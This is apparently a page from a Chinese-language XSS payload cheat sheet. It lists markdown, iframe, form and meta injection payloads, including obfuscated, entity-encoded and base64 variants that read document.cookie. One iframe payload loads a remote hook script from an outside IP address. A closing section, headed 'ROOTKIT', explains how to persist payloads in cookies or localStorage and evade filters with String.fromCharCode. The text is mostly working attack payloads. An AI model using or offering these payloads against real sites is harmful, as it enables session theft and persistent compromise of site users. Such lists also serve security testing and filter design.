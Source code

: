 ### markdown

    [a](javascript:prompt(document.cookie))
    [a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
    <&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
    ![a'"`onerror=prompt(document.cookie)](x)
    [notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
    [a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
    ![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)


### iframe

    <iframe onload='
        var sc   = document.createElement("scr" + "ipt");
        sc.type  = "text/javascr" + "ipt";
        sc.src   = "http://1.2.3.4/js/hook.js";
        document.body.appendChild(sc);
        '
    />

- ``<iframe src=javascript:alert(1)></iframe>``
- ``<iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>``
- ``<iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+></iframe>``
- ``<iframe srcdoc=<svg/o&#x6E;load&equals;alert&lpar;1)&gt;></iframe>``
- ``<iframe src=https://baidu.com width=1366 height=768></iframe>``
- ``<iframe src=javascript:alert(1) width=1366 height=768></iframe``

### form

- ``<form action=javascript:alert(1)><input type=submit>``
- ``<form><button formaction=javascript:alert(1)>M``
- ``<form><input formaction=javascript:alert(1) type=submit value=M>``
- ``<form><input formaction=javascript:alert(1) type=image value=M>``
- ``<form><input formaction=javascript:alert(1) type=image src=1>``

### meta

``<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">``

## ROOTKIT

### 基于存储

有时候网站会将信息存储在Cookie或localStorage，而因为这些数据一般是网站主动存储的，很多时候没有对Cookie或localStorage中取出的数据做过滤，会直接将其取出并展示在页面中，甚至存了JSON格式的数据时，部分站点存在 ``eval(data)`` 之类的调用。因此当有一个XSS时，可以把payload写入其中，在对应条件下触发。

在一些条件下，这种利用方式可能因为一些特殊字符造成问题，可以使用 ``String.fromCharCode`` 来绕过。

### Service Worker
